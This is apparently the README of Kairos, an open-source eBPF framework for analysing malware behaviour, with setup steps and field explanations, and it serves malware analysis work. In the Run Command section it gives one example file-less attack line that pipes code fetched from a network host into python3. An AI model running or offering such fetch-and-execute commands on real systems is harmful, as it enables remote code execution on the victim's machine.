

<div align="center">
  <h1 align="center">Kairos</h1>
  <h3>An Open Source eBPF Malware Analysis Framework</h3>
</div>
<div align="center">
  <a> </a>
</div>

## Features
- **eBPF Event Capturing** Automatically records relevant eBPF tracepoints used by the malware
- **LLM Event Analysis** Requests a LLM analysis to provide a human readable summary of the events
- **C2 Traffic Capture:** Records all incoming and outgoing network connections
- **Capture SSL Traffic:** Records data sent and recieved from SSL libraries without any modification to the binary *before* encryption using eBPF
- **File-less Malware Support:** Supports file-less malware such as pyloose where there is no binary file
- **Website Interface:** Upload and view malware samples from the browser 


<br>


https://github.com/user-attachments/assets/af2afed5-139c-477a-8126-2d9c5cf9e3b8


https://github.com/user-attachments/assets/5341536e-09ba-4a4a-92f5-c8f89c9415e4

## Tech Stack

- [libbpfgo](https://github.com/aquasecurity/libbpfgo) – eBPF library for Go
- [ollama](https://github.com/ollama/ollama) – Self hosted LLM provider 

## Getting Started

### Prerequisites

- Debian Machine (tested with Ubuntu 22.04 LTS)
- Golang [Install](https://go.dev/doc/install) 
- Ollama [Install](https://github.com/ollama/ollama?tab=readme-ov-file#linux) (24GB VRAM recommended)
- Docker [Install](https://docs.docker.com/engine/install/debian/)

### 1. Clone the repository
```shell
git clone git@github.com:recontech404/Kairos.git
cd Kairos
```

### 2. Install dependencies (for Debian)
```shell
sudo apt install build-essential libbpf-dev clang
```

#### *Note:* Modify the env values for network in the docker-compose.yml's if needed

### 3. Build and deploy the Server in docker (populate Ollama host first in build/docker-compose.yml)
```shell
cd Server
make build && make deploy
```

### 4. Build and deploy the UI in docker (from root dir)
```shell
cd UI/kairos-ui
make build && make deploy
```
### 5. Build the Runner (from root dir) -- see [Arm64](#arm64-runner-details) for building on arm64
```shell
cd Runner
make
```

#### Note: when running the *make* command in the Runner folder for the first time, you will also need to install the *correct* linux headers for bpf for your kernel version. You should get a warning such as:
```shell
WARNING: bpftool not found for kernel 6.5.0-44

  You may need to install the following packages for this specific kernel:
    linux-tools-6.5.0-44-generic
    linux-cloud-tools-6.5.0-44-generic

  You may also want to install one of the following packages to keep up to date:
    linux-tools-generic
    linux-cloud-tools-generic

->example fix: sudo apt install linux-tools-6.5.0-44-generic
```
### 6. Start the Runner (modify makefile run phony if you modified the server listen address/port)

```shell
make run
```

### Note: 

#### For testing this is done on the same machine as the Server and UI, but the *main* binary and *eBPF/main.bpf.o* can be copied to a VM or another machine (see [Runner Future State](#runner-future-state) for more info)
#### Ensure that the *main.bpf.o* is in a subfolder called *eBPF/* and then the command

```shell
sudo WS_ADDRESS=127.0.0.1 WS_PORT=8080 SKIP_VERIFY_TLS=TRUE ./main
```


#### If you wish to enable verbose logging you can add the LOG_V=TRUE env value. If you are running the server with a certificate you can enable TLS verfication

### 7. Open the app in your browser
Visit [http://localhost:8000](http://localhost:8000) in your browser

## How To Use Kairos

 - With a Runner connected, click `Add Job` from the webUI and populate the values and click `Submit`. 

#### Field Explanations
  - Name: is optional and is only for the user's reference in the UI
  - amd64/arm64: toggle is for selecting a runner with that architecture
  - Keep runner alive: this will keep the runner online after a job (for DFIR) but will not accept new jobs until after a restart 
  - Run Duration: determines how long the runner will run the malware and collect events before terminating (keep in mind that long run times will bypass LLM context length)
  - Run Command: Allows running a shell command instead of uploading a binary file
    - Run Command Args: is the shell command for the file-less malware i.e. `curl 192.168.8.12/10131 | python3` would be an example pyloose attack
    - Bin Exclusion: for the curl example, we know `curl` to be a benign binary and are not interested in the eBPF events so we can add `curl` to the Bin Exclusion input
      - This is a space separated list and the exclusion with match on substring, so you can add `curl` or `/usr/bin/curl` either will work
  - Malware File: allows you to upload a binary file
  - File Args: allows you to pass args to the binary file
    - These are space separated and quote grouped so `server --host 0.0.0.0 --port 8080` is acceptable input or `"-u user" "-p pass"` is another example if you want grouped
  - Save CMD Output: Saves the raw command line output from the exe (more of a nice to have sometimes)
    - Usually leave this disabled if you are running a file-less exploit as you will only see the output from the first command i.e. `curl` 
  - Override System Prompt: This allows you to modify the LLM system prompt if you want to add more context into the analysis 
    - This input is saved for every LLM analysis retry as well.

---
### System Settings
  - If you wish to modify the LLM parameters you can click `Settings` and modify the values
    - The name again is just for the user benefit currently, future state would be multiple "profiles" for different models
    - Model must be a valid ollama model, default is llama3.1:8b due to its 128k context length
    - Context Length: Default is 20000, but you may have to lower if less VRAM is available. Or raise it if you have more
    - System Prompt: The system prompt that is passed along with the ebpf events to the LLM
      - You can modify this and/or any of these other values and click the Re-LLM button and the new settings will be used for analysis
      - If the System Prompt Override was enabled for a job changing the system prompt will not make a change for re-llm

---

## Arm64 Runner Details
  - Arm64 Runners are fully supported and was tested with a RaspberryPi 4 running a custom kernel 6.6 on Debian 12
  - Most Arm Operating Systems do not come with full eBPF features enabled so you will likely have to build your own kernel with the following features *enabled*
  ```shell
  - CONFIG_DEBUG_INFO_BTF
  - CONFIG_FTRACE_SYSCALLS
  - CONFIG_FUNCTION_TRACER
  - CONFIG_DYNAMIC_FTRACE 
  - CONFIG_UPROBES
  - CONFIG_UPROBE_EVENTS
  ```
  

## Future State
 - Levenshtien algorithm to reduce very similar events (helps with reducing input tokens)
 - Auto-switch on job runner based on ELF type (amd64/arm64)
 - Capture Fork Events separate from main events (llm context length needs to be longer for this to work but tooling is in place)
 - Add support for other syscall tracepoint formats?

### Runner Future State
  - The end goal for the Runner would be to have it reside inside a self-resetting Linux VM (not a container for kernel separation) which auto-starts the Runner on start-up and resets after shutdown. 
  - This way the Runner environment is always the same between runs. (i.e having a snapshot before the run and resetting afterwards back to the snapshot).
  - There are already other projects which have similar sandbox reset functionality, but I have not had time to test or integrate automations with either VirtualBox or Proxmox.
  - Also implement a network capture /mitm attack to capture ssl data which was not caught by the eBPF

<br>

## Architecture

